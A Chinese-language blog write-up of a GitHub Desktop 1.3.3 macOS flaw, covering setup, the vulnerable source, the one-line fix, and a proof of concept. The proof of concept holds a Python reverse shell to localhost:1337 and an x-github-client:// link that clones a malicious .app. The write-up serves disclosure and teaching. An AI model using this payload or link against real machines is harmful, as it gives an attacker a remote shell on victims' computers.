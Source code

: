 <p class="date">{{ page.date | date_to_string }} - Tr3jer_CongRong</p>

&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;&nbsp;白天看到老外在H1-702 2018玩的项目，electron的案例不多，感觉有点意思复现下。

> 准备工作：

* https://github.com/desktop/desktop/archive/release-1.3.3.zip
* 恢复下.git/目录以及所需的文件
* yarn install
* yarn build:prod
* mv dist/GitHub Desktop-darwin-x64/GitHub Desktop.app /Applications


> 漏洞成因:

首先github的`Clone or download`按钮包含一个`Open in Desktop`的pull方式

验证时发现目前该方式的协议为`github-mac://`但早起版本的协议应该是`x-github-client://`，并且包含几个参数:

```
x-github-client://openRepo/https://github.com/user/repo?branch=master&filepath=README.md
```

app/src/lib/app-shell.ts

```
export const shell: IAppShell = {
	moveItemToTrash: electronShell.moveItemToTrash,
	beep: electronShell.beep,
	openExternal: path => {
		return new Promise<boolean>((resolve, reject) => {
			ipcRenderer.once(
				'open-external-result',
				(event: Electron.IpcMessageEvent, { result }: { result: boolean }) => {
					resolve(result)
				}
			)

			ipcRenderer.send('open-external', { path })
		})
	},
	showItemInFolder: path => {
		ipcRenderer.send('show-item-in-folder', { path })
	},
	openItem: electronShell.openItem,
}
```

ipcRenderer对象使用`show-item-in-folder`事件发送获取到的path

跟进app/src/main-process/main.ts

```
ipcMain.on(
	'show-item-in-folder',
	(event: Electron.IpcMessageEvent, { path }: { path: string }) => {
		Fs.stat(path, (err, stats) => {
			if (err) {
				log.error(`Unable to find file at '${path}'`, err)
				return
			}

			if (stats.isDirectory()) {
				openDirectorySafe(path)
			} else {
				shell.showItemInFolder(path)
			}
		})
	}
)
```

ipcMain对象监听到该事件消息后，fs库判断下是否为目录，如果是则传进`openDirectorySafe`。但没有考虑到mac系统下.app也是为目录的

```
> fs = require('fs')
> fs.stat('/Applications/GitHub Desktop.app',(err,stats)=>{console.log(stats.isDirectory())})
> true
```

跟进app/src/main-process/shell.ts

```
export function openDirectorySafe(path: string) {
	if (__DARWIN__) {
		const directoryURL = Url.format({
			pathname: path,
			protocol: 'file:',
			slashes: true,
		})

		shell.openExternal(directoryURL)
	} else {
		shell.openItem(path)
	}
}
```

判断如果是mac系统则使用`file://`协议重新构造url，并`shell.openExternal`运行。

> POC:

作者编写的py版本<a target="_blank" href="https://github.com/0xACB/github-desktop-poc">POC</a>，并用Pyinstaller打包了起来

```
import socket,subprocess,os;

os.system("open -a calculator.app")

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("localhost",1337));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);
```

本地监听，浏览器打开包含指定POC APP的链接：

```
x-github-client://openRepo/https://github.com/0xACB/github-desktop-poc?branch=master&filepath=osx/evil-app/rce.app
```

浏览器询问是否使用GitHub Desktop.app打开，确定并开始clone，随后反弹shell。

> Fixed:

fix方式很简单，判断不是mac系统最终才可以打开

```
-        if (stats.isDirectory()) {
+        if (!__DARWIN__ && stats.isDirectory()) {
```